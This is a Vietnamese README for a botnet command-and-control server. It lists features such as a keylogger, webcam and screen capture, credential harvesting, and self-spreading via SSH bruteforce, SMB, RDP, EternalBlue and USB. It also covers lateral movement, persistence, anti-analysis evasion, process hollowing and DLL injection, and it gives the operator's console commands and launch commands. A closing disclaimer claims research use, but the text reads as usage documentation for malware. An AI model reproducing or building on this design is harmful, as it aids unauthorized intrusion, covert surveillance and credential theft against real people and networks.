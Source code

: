 # Giới thiệu về Combined C&C Server

## I. Chức năng Quản lý Bot

### 1. Quản lý Kết nối
- Quản lý nhiều bot đồng thời qua SSH
- Tự động phục hồi kết nối khi mất
- Mã hóa toàn bộ giao tiếp
- Nhóm và phân loại bot

### 2. Điều Khiển Từ Xa
- Thực thi lệnh shell
- Chạy script Python
- Upload/Download file
- Điều khiển tiến trình
- Shutdown/Restart hệ thống

### 3. Thu thập Thông tin
- Keylogger nâng cao
- Chụp ảnh màn hình
- Quay phim/chụp ảnh webcam
- Thu thập thông tin hệ thống
- Theo dõi hoạt động mạng
- Thu thập thông tin đăng nhập

## II. Chức năng Lây lan

### 1. Quét Mạng
- Quét và phát hiện mục tiêu tự động
- Phân tích lỗ hổng
- Map topology mạng
- Phát hiện dịch vụ đang chạy

### 2. Phương thức Lây lan
- Lây lan qua SSH (bruteforce)
- Lây lan qua SMB
- Lây lan qua RDP
- Khai thác EternalBlue
- Lây lan qua USB
- Port knocking để ẩn dịch vụ

### 3. Di chuyển trong Mạng
- Lateral movement giữa các máy
- Thu thập và sử dụng credential
- Nhiều phương thức di chuyển (WMI, PsExec, WinRM)
- Tự động tìm đường đi tối ưu

## III. Chức năng Bảo mật

### 1. Persistence
- Nhiều phương thức duy trì (Registry, Task Scheduler, WMI)
- Tự động khôi phục khi bị xóa
- Phân tán các thành phần
- Cơ chế backup lẫn nhau giữa các bot

### 2. Chống Phát hiện
- Phát hiện môi trường ảo hóa
- Chống debug và phân tích
- Xóa dấu vết hoạt động
- Ẩn các process
- Mã hóa dữ liệu nhạy cảm

### 3. Bảo vệ Kết nối
- Mã hóa SSL/TLS
- Xác thực nhiều lớp
- Rotate các cổng kết nối
- Failover giữa các server

## IV. Chức năng Nâng cao

### 1. Tự động hóa
- Lập lịch các tác vụ
- Tự động thu thập thông tin
- Tự động lây lan
- Tự phục hồi khi gặp sự cố

### 2. Di chuyển Process
- Di chuyển giữa các process
- Process hollowing
- DLL injection
- Shellcode execution

### 3. Network Discovery
- Phát hiện cấu trúc mạng
- Phân tích các thiết bị
- Tìm đường đi tối ưu
- Theo dõi thay đổi topology

## V. Giao diện Điều khiển

### 1. Console UI
- Giao diện dòng lệnh tương tác
- Điều khiển trực tiếp các bot
- Quản lý tác vụ và lập lịch
- Theo dõi trạng thái real-time

### 2. Các Lệnh Chính
```bash
# Quản lý Bot
list                    # Hiển thị danh sách bot
select <id>            # Chọn bot để điều khiển
group <name> <ids>     # Nhóm các bot

# Điều khiển
shell <cmd>            # Thực thi lệnh shell
upload <src> <dst>     # Upload file
download <src> <dst>   # Download file
screenshot             # Chụp màn hình
webcam capture         # Chụp ảnh webcam
keylogger start/stop   # Điều khiển keylogger

# Thu thập Thông tin
sysinfo               # Thông tin hệ thống
ps                    # Liệt kê tiến trình
netstat              # Thông tin kết nối mạng
creds harvest        # Thu thập credential

# Lây lan
scan <subnet>         # Quét mạng
spread <target>       # Lây lan tới mục tiêu
lateral move <target> # Di chuyển tới máy khác

# Quản lý
schedule <task>       # Lập lịch tác vụ
persist install       # Cài đặt persistence
cleanup              # Xóa dấu vết
```

### 3. Tính năng Giám sát
- Theo dõi trạng thái bot
- Giám sát tài nguyên hệ thống
- Cảnh báo sự kiện bất thường
- Báo cáo hoạt động

## VI. Cách Sử dụng

### 1. Khởi động Server
```bash
python server.py
```

### 2. Triển khai Bot
```bash
python client.py <server_ip> <port>
```

### 3. Điều khiển qua Console
- Sử dụng các lệnh được liệt kê ở trên
- Có thể điều khiển từng bot hoặc nhóm bot
- Lập lịch các tác vụ tự động
- Theo dõi kết quả real-time

## VII. Bảo mật & Lưu ý

1. Hệ thống được thiết kế cho mục đích học tập và nghiên cứu
2. Chỉ sử dụng trên hệ thống được cấp phép
3. Tuân thủ các quy định về bảo mật
4. Không sử dụng cho mục đích độc hại